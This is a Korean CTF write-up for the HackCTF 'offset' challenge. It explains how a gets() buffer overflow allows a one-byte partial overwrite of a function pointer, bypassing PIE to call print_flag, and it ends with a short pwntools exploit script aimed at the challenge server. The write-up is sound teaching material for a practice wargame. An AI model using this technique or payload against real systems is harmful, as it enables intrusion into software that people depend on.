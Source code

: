 **HackCTF - offset**

| layout | title            | auther   | categories | tags           |
| ------ | ---------------- | -------- | ---------- | -------------- |
| post   | HackCTF - offset | Y3oj4eng | writeup    | writeupwargame |



# Analysis

---

`file` 명령어를 통해 해당 바이너리의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file offset 
offset: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=c3936da4c051f1ca58585ee8b243bc9c4a37e437, not stripped

```

`32 bit ELF` 프로그램이며 `not-stripped` 이다.

`checksec`명령어를 통해 해당 `binary`에 적용된 `mitigation`을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec offset 
[*] '/home/mac/Desktop/hackCTF/offset'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

`Full RELRO` & `NX` & `PIE` 보호기법이 적용되었다.

`NX`가 적용되어 `heap`, `stack`등과 같은 메모리에 실행 권한이 사라지며 `PIE`기법이 적용되어 메모리 상 모든 영역이 랜덤으로 매핑된다. 

왜 이름이 `offset`인지 느낌이 온다.

일단 `binary`를 실행 시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./offset 
Which function would you like to call?
aaaaaaaaaaaaaaaaaaaaaaaaaa

```

`binary`를 실행시키면 `Which function would you like to call?`이라는 문자열을 출력하고 사용자로부터 입력을 받는다.

분석시 해당 `binary` 내 함수들을 유심히 봐야겠다.

이제 분석을 진행한다.

![image](https://user-images.githubusercontent.com/33051018/75871241-99900000-5e4f-11ea-8dc1-aee51ae3ca20.png)

`IDA`로 열자마자 `Function Window`부터 살펴보았다.

`print_flag`라는 의미심장한 이름의 함수가 있었다. 

`main`함수를 분석한 뒤, 해당 함수를 살펴보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75871414-deb43200-5e4f-11ea-8964-5a074ae2d3a2.png)

`main`함수이다.

버퍼를 초기화 한 뒤, 아까 봤던 문자열 `Which function would you like to call?`을 출력한다.

이후 `s`변수에 `gets`함수를 통해 값을 입력받는다.

`s`변수는 `ebp-0x27`에 위치하고 있으나 입력을 받을때 길이값을 검증하지 않아 `BOF`취약점이 존재한다.

이후 입력받은 `s`를 참조하여 `select_func`의 인자로 전달한 뒤 프로그램을 종료한다.

`select_func`함수를 살펴보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75871647-3a7ebb00-5e50-11ea-8cb5-b55cd0263bde.png)

`v3`는 함수형 포인터로써 `two`함수의 주소를 참조하도록 초기화한다.

이후 `select_func`은 전달받은 인자 `src`를 `dest`에 `31bytes`만큼 복사한다.

다음으로 분기를 통해 `dest`값을 `one`과 비교하여 만일 같으면 `v3`변수가 `one()`을 참조하도록 초기화하여 `v3`를 호출하고 다르면 그냥 `v3`를 호출한다.

**결론적으로 `select_func` 함수가 호출하는 함수의 주소는 `v3`에 담긴다.** 

아까 잠시 보고 지나갔던 `print_flag()` 함수를 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75872295-3bfcb300-5e51-11ea-9054-422d3b9ba8f3.png)

해당 함수는 `flag.txt`함수를 읽어서 출력해주는 함수이다.

따라서, `v3` 함수형 포인터가 `print_flag` 함수를 참조할 수 있도록 프로그램의 흐름을 변조하면 될 것 같다.

또한, `select_func`에서 `dest`와 `v3`의 사이 거리는 30bytes다.

이후 `strncpy`를 이용해 복사하는 데이터의 크기는 31bytes다. 따라서 우리는 호출하는 함수의 1byte만 덮어씌울수 있다.

```bash
gdb-peda$ pd select_func
Dump of assembler code for function select_func:
   0x0000077f <+0>:	push   ebp
   0x00000780 <+1>:	mov    ebp,esp
   0x00000782 <+3>:	push   ebx
   0x00000783 <+4>:	sub    esp,0x34
   0x00000786 <+7>:	call   0x5b0 <__x86.get_pc_thunk.bx>
   0x0000078b <+12>:	add    ebx,0x182d
   0x00000791 <+18>:	lea    eax,[ebx-0x190b]
   0x00000797 <+24>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000079a <+27>:	sub    esp,0x4
   0x0000079d <+30>:	push   0x1f
   0x0000079f <+32>:	push   DWORD PTR [ebp+0x8]
   0x000007a2 <+35>:	lea    eax,[ebp-0x2a]
   0x000007a5 <+38>:	push   eax
   0x000007a6 <+39>:	call   0x550 <strncpy@plt>
   0x000007ab <+44>:	add    esp,0x10
   0x000007ae <+47>:	sub    esp,0x8
   0x000007b1 <+50>:	lea    eax,[ebx-0x1675]
   0x000007b7 <+56>:	push   eax
   0x000007b8 <+57>:	lea    eax,[ebp-0x2a]
   0x000007bb <+60>:	push   eax
   0x000007bc <+61>:	call   0x4d0 <strcmp@plt>
   0x000007c1 <+66>:	add    esp,0x10
   0x000007c4 <+69>:	test   eax,eax
   0x000007c6 <+71>:	jne    0x7d1 <select_func+82>
   0x000007c8 <+73>:	lea    eax,[ebx-0x1864]
   0x000007ce <+79>:	mov    DWORD PTR [ebp-0xc],eax
   0x000007d1 <+82>:	mov    eax,DWORD PTR [ebp-0xc]
   0x000007d4 <+85>:	call   eax
   0x000007d6 <+87>:	nop
   0x000007d7 <+88>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000007da <+91>:	leave  
   0x000007db <+92>:	ret
```

`select_func` +85 부분이 `v3` 함수를 호출하는 부분이다.

해당 부분에 `breakpoint`를 걸고 `eax`값을 살펴본다.

![image](https://user-images.githubusercontent.com/33051018/75874952-21790880-5e56-11ea-8524-becd2929109e.png)

`eax`에는 `0x56555600` 값이 들어가있다.

궁극적으로 실행시켜야할 함수 `print_flag`의 주소는 `0x565556d8` 이다.

두 주소를 비교해보면 맨 끝자리 2개 즉, 첫 한 바이트만 차이난다.

따라서, 페이로드의 구성은 30개의 더미와 `print_flag`함수의 첫주소인 `0xd8`을 조합하여 전달한다.

# Explolit

---

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)
#p = process('./offset')

payload = 'A'*30
payload += '\xd8'

p.recvuntil('Which function would you like to call?\n')
p.sendline(payload)

p.interactive()
```
~~vscode github push test~~